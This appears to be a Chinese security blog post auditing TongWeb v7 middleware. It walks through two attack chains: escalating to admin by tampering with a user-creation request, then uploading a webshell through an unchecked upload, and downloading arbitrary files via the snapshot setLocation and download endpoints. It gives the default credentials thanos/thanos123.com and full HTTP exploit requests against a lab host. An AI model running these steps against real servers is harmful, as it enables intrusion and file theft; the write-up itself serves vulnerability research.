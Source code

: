 #  tongweb闭源中间件代码审计  
原创 大白  蚁景网络安全   2025-06-20 09:32  
  
   
  
![](https://mmbiz.qpic.cn/mmbiz_gif/5znJiaZxqldyq3SBEPw0n6hCXNk6PmR3gyPFJDUCibH91GiaAHHKiaCpcsfnQJ2oImQunzubgDtpxzxNHONU88CypA/640?wx_fmt=gif&from=appmsg "")  
  
应用服务器 TongWeb v7 全面支持 JavaEE7 及 JavaEE8  
  
规范，作为基础架构软件，位于操作系统与应用之间，帮助企业将业务应用集成在一个基础平台上，为应用高效、稳定、安全运行提供关键支撑，包括便捷的开发、随需应变的灵活部署、丰富的运行时监视、高效的管理等。  
  
本文对该中间件部分公开在互联网，但未分析细节的漏洞进行复现分析：  
  
**sysweb后台上传getshell：**  
  
在互联网搜索发现该版本存在sysweb后台文件下载，可惜却没有复现细节，且访问显示如下：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5znJiaZxqldxXhNbSGF5jiamW6oZdo408gZztZlPGbJX8NWcCa2awnHVSBCGBETkLeQQRvQCu5icvFe6IpMqYUB8A/640?wx_fmt=png&from=appmsg "null")  
  
发现通过默认口令thanos/thanos123.com无法登录，且未发现任何相关的默认口令：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5znJiaZxqldxXhNbSGF5jiamW6oZdo408gA8dqPWEKzw2oSzic20gQwnz5W3SjLjCMuZnnnribSf8AdV6seF5DOtSw/640?wx_fmt=png&from=appmsg "null")  
  
于是自己找到配置文件查看权限校验情况：  
  
\sysweb\WEB-INF\web.xml：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5znJiaZxqldxXhNbSGF5jiamW6oZdo408giaX2wxFztwtdVC9Kic2RkLfiaDQ150AbqN1IRjOLgj4ka8lsd8vuD40FQ/640?wx_fmt=png&from=appmsg "null")  
  
发现配置情况如上，一切/*请求均需要admin权限才行，但目前互联网暂未发现任何其他相关权限账号，自己尝试admin相关弱口令也均为成功，于是继续寻找用户相关功能点：  
  
点击安全服务--安全域管理：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5znJiaZxqldxXhNbSGF5jiamW6oZdo408gOsM54iaB7PJskvbibAZfYhfwdPXXoD3yTRncQLAAqSpUkR6JBgcFMe4Q/640?wx_fmt=png&from=appmsg "null")  
  
点击该安全域：找到默认账户的thanos用户：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5znJiaZxqldxXhNbSGF5jiamW6oZdo408g7fYQhBaPYyBH9nJeoYlxR8cobZve5scr37bYK7Wsot6mnPWAqqvFdw/640?wx_fmt=png&from=appmsg "null")  
  
点击保存，查看数据包：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5znJiaZxqldxXhNbSGF5jiamW6oZdo408gibKaUATnkic9A6rdnlSxajHawsBV4DAM88qIZLqojwCm2HSGnscfpWSQ/640?wx_fmt=png&from=appmsg "null")  
  
发现该账户的userRole为tongweb与sysweb要求的admin并不匹配，于是点击创建用户：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5znJiaZxqldxXhNbSGF5jiamW6oZdo408gkiaqibNDENG6PicfUbt983ftc1UpR83fBDaCmwulIzmtLSqYd5Wgb5P4w/640?wx_fmt=png&from=appmsg "null")  
  
但并未发现可以随意设置用户的useRole，于是点击保存，并拦截数据包：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5znJiaZxqldxXhNbSGF5jiamW6oZdo408gSTYDDcze52RTmazKUQ3F0lPvEjA1joaDdd6qibg3icjO1boMibVibJDdfA/640?wx_fmt=png&from=appmsg "null")  
  
将空白的userRole设置为admin，并放包：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5znJiaZxqldxXhNbSGF5jiamW6oZdo408gVogqELCye4BcQeEeqx4Ht8xWQ5P8X0hJMDvKvrxib1I9LKcWTbpSr6w/640?wx_fmt=png&from=appmsg "null")  
  
发现创建成功。于是尝试sysweb登录：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5znJiaZxqldxXhNbSGF5jiamW6oZdo408gtIQx37RKM9qSY385KecggEXXSSdnkNMZ1IiclMsYowu3oGYfKRpoIzg/640?wx_fmt=png&from=appmsg "null")  
  
发现仅仅是如上页面，但是至少权限问题解决了。  
  
接着返回sysweb的配置文件:  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5znJiaZxqldxXhNbSGF5jiamW6oZdo408gyUS3NBJnfFGE8sv6ayibKBRWKXP7d3tZOZTfxUAr4jfTtfvJm3zG0PQ/640?wx_fmt=png&from=appmsg "null")  
  
跟进分析：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5znJiaZxqldxXhNbSGF5jiamW6oZdo408gR9QG6zickLFDP8ZVXV10ooRb4dHho8POiaB9KZrJGKlee0aKUmrrcAeA/640?wx_fmt=png&from=appmsg "null")  
  
发现未进行任何校验过滤，直接通过parseFileName()方法解析header获取文件名赋值给fileName。  
  
构造如下文件上传数据包：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5znJiaZxqldxXhNbSGF5jiamW6oZdo408gA5EY4r2jQIII2qS0CeGXPZJPd28rALwN3MYjUuudYzpjOzcHOsdN6Q/640?wx_fmt=png&from=appmsg "null")  
  
上传成功，shell加一：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5znJiaZxqldxXhNbSGF5jiamW6oZdo408gr93LNMff7xpsib5vdVQ4EpcKsNicFXb0pqSD6wUMOYaicNI9ZakzulkjA/640?wx_fmt=png&from=appmsg "null")  
  
**任意文件下载漏洞：**  
  
默认账号密码:thanos/thanos123.com登录后台，在快照管理处存在下载功能点：  
  
![屏幕截图 2025-06-15
105505](https://mmbiz.qpic.cn/mmbiz_png/5znJiaZxqldxXhNbSGF5jiamW6oZdo408gPhY1Gyd1XbbadCWqTkzUgoTrav6Y8bsgGXQ51JEsF97czELxnhw3Vw/640?wx_fmt=png&from=appmsg "null")  
  
点击下载抓包查看：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5znJiaZxqldxXhNbSGF5jiamW6oZdo408gMghsOnujvFZmFG19Z0V0UWuIISB2n9WF5npo8ETll3InczMr7xAGtg/640?wx_fmt=png&from=appmsg "null")  
  
下载文件打包成压缩包下载：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5znJiaZxqldxXhNbSGF5jiamW6oZdo408gjX6icKUZyEVpPZaEIZVMriaPHbjKAU5qXicvgcicsUFflT0CGskE6tCEUw/640?wx_fmt=png&from=appmsg "null")  
  
如上，疑似存在下载漏洞，跟进路由：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5znJiaZxqldxXhNbSGF5jiamW6oZdo408giaAQttpM2xSpMR61icf0Lf7naQk6xKZmQkqs432bEQedXibZIshYSux2Q/640?wx_fmt=png&from=appmsg "null")  
  
如上，先找到类级别的路径位置，注解表示由/rest/monitor/snapshots根路径发起的请求均会被该类处理。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5znJiaZxqldxXhNbSGF5jiamW6oZdo408gEnibcCPCdibPctwTberLjqXY3QBU6T5AbT5t6VAF1ibIP1xzCqLcW8fJg/640?wx_fmt=png&from=appmsg "null")  
  
  
  随后再找到方法级别的路由位置，download的post请求均会被该方法处理：  
  
可见该方法接收了前面数据包传输的参数filename，并赋值给snapshotname参数。  
  
分析如上代码存在以下路径：  
  
Path：根路径，由system.getProperty/temp/download组成  
  
snapshotRootPath：由path/snapshotname组成。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5znJiaZxqldxXhNbSGF5jiamW6oZdo408gCNxqojU3SksZ8ticwVib8y6c5CsiaFtkSBLJVcfP84n7lXrAGaQ0tdWmg/640?wx_fmt=png&from=appmsg "null")  
  
随后进入AgentUtil.receiveFileOrDir()进行目标文件压缩，下载，且此处未进行任何校验：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5znJiaZxqldxXhNbSGF5jiamW6oZdo408gsOCL9KqauXMg9hiaISwtgYNX8TuPW0STP8ypCibKOoQbnvjd04yiaWtgg/640?wx_fmt=png&from=appmsg "null")  
  
但如果直接修改数据包filename进行任意文件下载依然会失败，因为紧接着代码进行了如下校验：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5znJiaZxqldxXhNbSGF5jiamW6oZdo408gI92uhZEOZy8AaVDenFoNGDEq0Iibf0CYp4p5J8cq5p2d7HOl2JGE3pw/640?wx_fmt=png&from=appmsg "null")  
  
判断下载路径snapshotRootPath的父路径是否是path，也就是对snapshotname与path拼接后的路径进行校验，如果snapshotname值为../../或者为/a/b这种格式则无法通过校验，也就是限制了跨目录操作。  
  
但回过头来查看具体下载操作：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5znJiaZxqldxXhNbSGF5jiamW6oZdo408gflm6CorYNpZ6bWKj18jziawSNibxpdlOQGegaHic3aiaWXqqeQtxX0z16Q/640?wx_fmt=png&from=appmsg "null")  
  
是通过fileOrDir路径与snapshotRootPath进行文件下载的，查找location的值：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5znJiaZxqldxXhNbSGF5jiamW6oZdo408gOficw5fJDGU5OiaBk6WUvVYibiaBflgt8gKv2ibbw9DiarouZXTWzu9OJNtg/640?wx_fmt=png&from=appmsg "null")  
  
且发现location参数值可控：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5znJiaZxqldxXhNbSGF5jiamW6oZdo408g9LaXTUBiaT87fvoicHqRCVOrZwOL5aw9ESYRBZr2ibbEwxR1CZTjLk8ibw/640?wx_fmt=png&from=appmsg "null")  
  
于是先通过如下数据包修改location的值(修改为想任意下载的目录)：  
```
POST /console/rest/monitor/snapshots/setLocation HTTP/1.1Host: 192.168.73.130:9060User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:138.0)Gecko/20100101 Firefox/138.0Accept: application/json, text/javascript, \*/\*; q=0.01Accept-Language:zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2Accept-Encoding: gzip, deflate, brContent-Type: application/x-www-form-urlencoded; charset=UTF-8X-Requested-With: XMLHttpRequestContent-Length: 36Origin: http://192.168.73.130:9060Connection: keep-aliveReferer: http://192.168.73.130:9060/console/restCookie: console-c-4aff-9=EABC776A7845EFBDA555BAA1D078F628;DWRSESSIONID=858h23g\$aEjH1iqRz1jnGBLe3rpsnapshot_location=D%3A%5CTongWeb7.42
```  
  
随后再进行下载：  
```
POST /console/rest/monitor/snapshots/download HTTP/1.1Host: 192.168.73.130:9060User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:139.0)Gecko/20100101 Firefox/139.0Accept:text/html,application/xhtml+xml,application/xml;q=0.9,\*/\*;q=0.8Accept-Language:zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2Accept-Encoding: gzip, deflate, brContent-Type: application/x-www-form-urlencodedContent-Length: 39Origin: http://192.168.73.130:9060Connection: keep-aliveReferer: http://192.168.73.130:9060/console/pages/monitor/snapshot.jspCookie: console-c-4aff-9=429BD65834FAD60D489BC2F36DAF93C5;DWRSESSIONID=jvSHNTT66zO2\$Hjyb4sFS7vYdrpUpgrade-Insecure-Requests: 1Priority: u=4filename=conf
```  
  
如下，下载成功：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5znJiaZxqldxXhNbSGF5jiamW6oZdo408gkianqUuFkCEkrf9NJTtLBK2qSqUmgCe1h8e6DuaCb8HoPrIrqtmZXSA/640?wx_fmt=png&from=appmsg "null")  
  
  
[](https://mp.weixin.qq.com/s?__biz=MzkxNTIwNTkyNg==&mid=2247549615&idx=1&sn=5de0fec4a85adc4c45c6864eec2c5c56&scene=21#wechat_redirect)  
  
  
